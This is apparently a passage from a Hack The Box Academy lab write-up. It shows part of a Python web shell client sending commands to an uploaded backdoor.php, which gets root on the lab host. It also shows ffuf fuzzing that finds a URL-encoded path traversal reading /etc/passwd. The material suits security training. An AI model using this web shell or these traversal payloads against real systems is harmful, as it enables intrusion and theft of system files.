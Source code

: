 ```python
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ python3 web_shell.py -t http://10.129.202.133:3001/uploads/backdoor.php -o yes

$ whoami
root

$ hostname
nix01-websvc
```

**Answer**

```
nix01-websvc
```

## Local File Inclusion

### Questions

#### Question #08

**Question**

Through the LFI vulnerability identify an existing user on the server whose name starts with "ub". Answer format: "ub****".

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt -u 'http://10.129.202.133:3000/api/FUZZ' -t 100

[SNIP]

download                [Status: 200, Size: 71, Words: 5, Lines: 1, Duration: 39ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl -s http://10.129.202.133:3000/api/download | jq

{
  "success": false,
  "error": "Input the filename via /download/<filename>"
}

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://10.129.202.133:3000/api/download/FUZZ' -t 100 -fs 43

[SNIP]

..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 1877, Words: 17, Lines: 36, Duration: 18ms]
```